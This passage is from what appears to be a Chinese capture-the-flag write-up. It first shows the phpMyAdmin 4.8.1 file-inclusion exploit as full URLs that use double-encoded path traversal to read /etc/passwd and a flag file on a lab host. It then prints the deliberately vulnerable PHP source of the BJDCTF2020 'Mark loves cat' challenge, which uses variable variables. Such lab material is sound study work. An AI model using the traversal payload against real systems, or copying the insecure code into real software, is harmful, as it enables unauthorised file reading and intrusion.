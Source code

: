 扫描可以得到/phpmyadmin路径

打开得到后台界面

###### phpMyAdmin4.8.1文件包含漏洞：

```
http://c6343f83-b9a9-4a2e-899d-0fb98cf8fedd.node4.buuoj.cn:81/phpmyadmin/?target=db_structure.php%253f/../../../../../../../../etc/passwd
```

```
http://c6343f83-b9a9-4a2e-899d-0fb98cf8fedd.node4.buuoj.cn:81/phpmyadmin/?target=db_structure.php%253f/../../../../../../../../flag
```



## [BJDCTF2020]Mark loves cat

访问/.git发现有git泄露

在flag.php文件中有：

```php
<?php

$flag = file_get_contents('/flag');
```

并得到文件包含文件：

###### 文件包含（代码审计）

```php
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}

echo "the flag is: ".$flag;
```
